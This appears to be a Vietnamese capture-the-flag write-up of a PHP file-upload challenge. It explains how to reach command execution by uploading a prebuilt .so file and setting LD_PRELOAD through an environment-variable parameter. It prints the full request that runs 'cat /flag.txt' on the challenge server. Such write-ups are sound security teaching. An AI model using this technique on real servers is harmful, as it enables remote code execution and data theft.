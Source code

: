 ```php

<form action="/" method="post" enctype="multipart/form-data">
  Select evil file to upload:
  <input type="file" name="file"> <br />
  <input type="submit" value="Upload" name="submit">
</form>

<!-- ?source=1 -->
```
Phân tích source:
- Chương trình cho phép upload file, nếu trong thư mục `uploads` có nhiều hơn 100 file thì sẽ xóa tất cả các file trong đó
- Các file upload lên không được phép có extension  chứa `ph` => chống upload các file có thể thực thi `php`
- Tham số `env` có nhận tham số theo array sau đó set giá trị cho các biến môi trường. 
Example:
    - Nhập `env[a]=b` thì sẽ set biến môi trường `a=b`
- Key truyền vào phải thuộc từ `A-Za-z_` và không được có `bash` => điều này để người chơi khỏi exploit theo một hướng khác, cụ thể [environment variables injection to a RCE](https://twitter.com/phithon_xg/status/1495367705825722368)

## Exploit
- Upload 1 file `.so` để biến `LD_PRELOAD` trỏ tới.
- Sử dụng tham số `env` để put biến môi trường `LD_PRELOAD`

File `.so` mình sử dụng [bypass_disablefunc_x64.so](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc_x64.so)

Sau khi upload thành công thì thực hiện request dưới đây với file `.so` đã upload hiện ra màn hình.
```
GET /?env[LD_PRELOAD]=/var/www/html/uploads/20de058610b27659d7ad6eb00e5cdf16.so&env[EVIL_CMDLINE]=cat+/flag.txt HTTP/1.1
Host: 45.32.110.58:20102
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
Biến môi trường `EVIL_CMDLINE` sẽ được chạy trong hàm `system`.
![](https://i.imgur.com/QCuDwLy.png)

## Challenge Mineme
Các bạn có thể tải source ở đây nhé [SOURCE_CODE](https://drive.google.com/uc?id=1PFppvmsCi3VC3p4_a-ZXdl9J8lB1xck4&export=download)
